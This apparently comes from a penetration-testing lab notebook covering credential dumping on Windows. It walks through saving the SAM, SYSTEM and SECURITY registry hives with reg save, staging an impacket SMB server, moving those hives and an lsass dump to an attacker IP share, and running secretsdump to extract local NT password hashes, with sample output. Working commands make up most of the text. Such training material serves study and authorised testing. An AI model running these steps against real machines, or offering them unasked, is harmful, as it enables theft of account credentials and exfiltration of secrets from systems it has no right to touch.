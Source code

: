 ## Attacking SAM

### Registry Hives

|**Registry Hive**|**Description**|
|---|---|
|`hklm\sam`|Contains hashes for local account passwords. Needed for cracking passwords.|
|`hklm\system`|Contains the system bootkey, which encrypts the SAM database. Needed to decrypt SAM.|
|`hklm\security`|Contains cached credentials for domain accounts. Useful on domain-joined systems.|

> [!IMPORTANT]  
> SAM, Security, and System files cannot be accessed directly as they are used by other processes. A duplicate file must be created and transferred for offline cracking.

### Saving Registry Hives on the Victim Machine

```cmd
C:\WINDOWS\system32> reg.exe save hklm\sam C:\sam.save
The operation completed successfully.

C:\WINDOWS\system32> reg save hklm\system C:\system.save
The operation completed successfully.

C:\WINDOWS\system32> reg save hklm\security C:\security.save
The operation completed successfully.
```

### Transferring Files to the Attacker Machine

1. **On the Attacker Machine:**

```shell
pradyun2005@htb[/htb]$ sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support <share name> <destination in attacker>
```

2. **On the Victim Machine:**

```cmd
C:\> move lsass.DMP \\110.10.14.159\lsass
C:\> move security.save \\110.10.14.159\regfile
C:\> move system.save \\110.10.14.159\regfile
```

### Extracting SAM Hashes Using Impacket

```shell
pradyun2005@htb[/htb]$ python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```

**Example Output:**

```
[*] Target system bootKey: 0x4d8c7cff8a543fbf245a363d2ffce518
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:3dd5a5ef0ed25b8d6add8b2805cce06b:::
defaultuser0:1000:aad3b435b51404eeaad3b435b51404ee:683b72db605d064397cf503802b51857:::
[*] Cleaning up...
```

---